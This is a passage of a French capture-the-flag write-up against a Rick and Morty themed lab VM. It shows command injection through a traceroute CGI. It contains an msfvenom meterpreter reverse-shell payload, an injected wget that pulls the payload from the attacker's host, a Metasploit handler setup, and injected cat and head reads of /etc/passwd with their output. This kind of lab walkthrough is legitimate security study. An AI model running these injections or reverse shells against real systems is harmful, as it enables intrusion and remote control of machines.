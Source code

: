 ```
total 8
drwxr-xr-x. 2 root root  50 Aug 25  2017 .
drwxr-xr-x. 4 root root  33 Aug 22  2017 ..
-rwxr-xr-x. 1 root root 255 Aug 22  2017 root_shell.cgi
-rwxr-xr-x. 1 root root 787 Aug 25  2017 tracertool.cgi
```

Bingo ! On va pouvoir injecter une backdoor la dedans :

```bash
#Generating reverse shell 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.122.197 LPORT=4444 -f elf > shell.elf
#Launch simple HTTP server for upload
python -m SimpleHTTPServer 8000
#Upload (on target)
;wget http://192.168.122.197/shell.elf -o /tmp/shell.elf
#Launch meterpreter listener
use exploit/multi/handler
set payload linux/x86/meterpreter_reverse_tcp
#Launch shell on target
; /tmp/shell.elf
```

C'est ici une échec cuisant, tentons autre chose : 

```bash
;cat /etc/password 

                         _
                        | \
                        | |
                        | |
   |\                   | |
  /, ~\                / /
 X     `-.....-------./ /
  ~-. ~  ~              |
     \             /    |
      \  /_     ___\   /
      | /\ ~~~~~   \  |
      | | \        || |
      | |\ \       || )
     (_/ (_/      ((_/

``` 

Encore un troll de Rick, on change donc de technique : 

```bash
; head -n56 /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
```